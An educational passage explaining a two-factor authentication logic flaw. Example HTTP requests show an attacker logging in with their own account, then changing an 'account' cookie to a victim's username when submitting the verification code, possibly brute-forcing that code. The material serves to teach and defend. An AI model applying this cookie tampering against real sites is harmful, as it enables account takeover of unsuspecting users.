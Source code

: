 ## Flawed two-factor verification logic

Sometimes flawed logic in two-factor authentication means that after a user has completed the initial login step, the website doesn't adequately verify that the same user is completing the second step.

For example, the user logs in with their normal credentials in the first step as follows:

```
POST /login-steps/first 
HTTP/1.1 
Host: vulnerable-website.com ... username=carlos&password=qwerty
```

They are then assigned a cookie that relates to their account, before being taken to the second step of the login process:

```
HTTP/1.1 200 OK 
Set-Cookie: account=carlos 

GET /login-steps/second 
HTTP/1.1 
Cookie: account=carlos
```

When submitting the verification code, the request uses this cookie to determine which account the user is trying to access:

```
POST /login-steps/second HTTP/1.1 
Host: vulnerable-website.com 
Cookie: account=carlos ... verification-code=123456
```

In this case, an attacker could log in using their own credentials but then change the value of the `account` cookie to any arbitrary username when submitting the verification code.

```
POST /login-steps/second HTTP/1.1 
Host: vulnerable-website.com 
Cookie: account=victim-user ... verification-code=123456
```

This is extremely dangerous if the attacker is then able to brute-force the verification code as it would allow them to log in to arbitrary users' accounts based entirely on their username. They would never even need to know the user's password.